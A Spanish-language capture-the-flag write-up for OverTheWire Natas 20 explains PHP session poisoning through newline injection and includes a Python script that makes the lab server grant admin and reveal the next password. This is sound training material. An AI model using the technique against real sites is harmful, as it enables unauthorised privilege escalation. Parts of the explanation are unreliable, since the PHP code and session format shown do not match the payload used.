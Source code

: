 # Natas 20 – OverTheWire

En este nivel se nos presenta una página sencilla con un campo de texto donde podemos introducir nuestro nombre.
La aplicación nos “saluda” y guarda el valor en sesión.
Nuestro objetivo: convertirnos en admin para obtener la contraseña de natas21.

## Analisis

La pista clave está en el código PHP (o en el comportamiento del sitio):

```php
<?php
session_start();

if (array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
}

if (array_key_exists("admin", $_SESSION) && $_SESSION["admin"] == 1) {
    echo "You are an admin. The password for natas21 is <hidden>";
} else {
    echo "You are logged in as a regular user.";
}
?>
```

**Observaciones importantes:**

1. El servidor usa `$_REQUEST`, que combina variables `GET, POST y COOKIE`.
2. El identificador de sesión (PHPSESSID) tiene formato aleatorio, como:

```url
PHPSESSID = fj0bagle9hif2ojhsu7icmk69n
```

Es decir, la gestión de sesión es segura, pero la lógica no.

El error está en esta línea:

```php
if (array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
}
```

El código no distingue el origen del valor (`GET`, `POST` o `COOKIE`), así que podemos inyectar cualquier cosa en la sesión enviándolo como cookie.

### Concepto: Session Poisoning

La vulnerabilidad aquí se llama Session Poisoning (envenenamiento de sesión).
Se da cuando una aplicación copia directamente el contenido de `$_REQUEST` (que el usuario controla) a la sesión (`$_SESSION`).

Esto permite inyectar nuevas variables en la sesión (por ejemplo `admin=1`) simplemente añadiéndolas como cookies.

Sabiendo esto vamos a programar un pequeño script en python(se puede hacer si el perfectamente pero hay que mejorar haciendo scripts), lo primero que vamos a hacer es realizar una peticion `get` al servidor, para comprobar que lo hacemos bien:

```python
import requests
import re

username = 'natas20'
passwd = '<contraseñaNatas20>'

url = 'http://natas20.natas.labs.overthewire.org/index.php'

session = requests.Session()

response = session.get(url, auth= (username, passwd))
print(response.text) 
print("="*80)
```

>[!NOTE]
>Es importante hacer uso de `requests.Session()`para que se guarde nuestro `PHPSESSID` y siempre sea el mismo durante las peticiones.

Si vamos al código de la página vamos a ver que el sevidor acepta una variable por el metodo `get` llamada `debug`, vamos a ponerla en nuestra url para ver que es lo que nos muestra:

![PHPSESSID](Assets/Natas20/PHPSESSID.png)

Como vemos esta variable lo que nos dice es que `PHPSESSID` y tambien nos dice algo de que el archivo no existe. Si vamos de nuevo a el código de la página veremos como el `PHPSESSID` se guarda en un archivo, está es la manera de funcionar de esta tecnologia, normalmente este archivo se guarda en `/tmp/sess_<PHPSESSID>` y la informacion que guarda se ve de la siguiente manera:

```url
name|s:4:"test";
admin|s:1:"0";
```

El reto consiste en modificar el archivo de sesión de forma que contenga:

```url
admin|s:1:"1";
```

para que el servidor crea que somos administradores.

para ello vamos a coger el script que teniamos antes y vamos a añadirle un par de líneas:

```python
import requests
import re

username = 'natas20'
passwd = '<contraseñaNatas20>'

url = 'http://natas20.natas.labs.overthewire.org/index.php?debug'

session = requests.Session()

response = session.get(url, auth=(username, passwd))
print(response.text)
print("=" * 80)

response = session.post(url, data={"name": "test\nadmin 1"}, auth=(username, passwd))
print(response.text)
print("=" * 80)

response = session.get(url, auth=(username, passwd))
print(response.text)
print("=" * 80)
```

![Contraseña](Assets/Natas20/Contraseña.png)

### Explicación

1. **Primera petición (GET)**: Crea una sesión nueva (`PHPSESSID` aleatorio).
2. **Segunda petición (POST)**: Envía el campo `name` con un salto de línea \n seguido de `admin 1`.
Esto modifica el archivo de sesión y añade la línea `admin|s:1:"1";`.
3. **Tercera petición (GET)**: Carga la sesión ya modificada, detecta `admin=1` y muestra la contraseña.

### Concepto: Manipulación de sesión mediante inyección

- PHP almacena variables de sesión en archivos de texto plano.
- Si el código copia directamente el contenido de `$_REQUEST` a `$_SESSION`, un atacante puede introducir caracteres especiales (`\n`, `\r`) para inyectar nuevas variables.
- Esto se conoce como **Session Injection** o **Session Poisoning via newline injection**.

## Conclusion

- $_REQUEST es peligroso: Mezcla `GET`, `POST` y `COOKIE`, permitiendo entrada no controlada.
- Archivos de sesión PHP: Se guardan como texto, por lo que los saltos de línea pueden alterar su estructura.
- Inyección de sesión: Insertar una nueva variable en el archivo de sesión para escalar privilegios.
- Mitigación: Validar y sanear entradas antes de almacenarlas en sesión. Nunca guardar texto sin procesar.
